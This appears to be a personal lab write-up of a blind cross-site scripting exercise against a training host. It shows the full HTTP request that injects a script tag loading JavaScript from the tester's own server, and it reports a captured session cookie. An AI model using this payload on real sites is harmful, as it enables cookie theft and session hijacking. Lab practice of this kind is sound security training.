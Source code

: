 # Blind XSS
- `message` parameter is vulnerable for blind xss
```
GET /ticket.php?Name=f&Email=f&Phone+Number=f&Product=f&os=lin&browser=firefox&message="><script+src='http://10.10.15.250:8081/script.js'></script>&ttype=feature HTTP/1.1
Host: support.inlanefreight.local
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://support.inlanefreight.local/ticket.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: experimentation_subject_id=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkltWTFOR1UwT0dZMExXWmxOV0V0TkRrd01pMWlNVFppTFdZd05UZGpZamc0TVRObVppST0iLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5leHBlcmltZW50YXRpb25fc3ViamVjdF9pZCJ9fQ%3D%3D--81a62069959685a6d90485c201966fde564e9053; sidebar_collapsed=false; visitor_id=dc65dda8-203b-4150-b16b-6a5286ead292
Connection: close
```
- so after set up php server and script.js I managed to catch cookie `session=fcfaf93ab169bc943b92109f0a845d99`
- after set up it console I see
![[Pasted image 20240822151507.png]]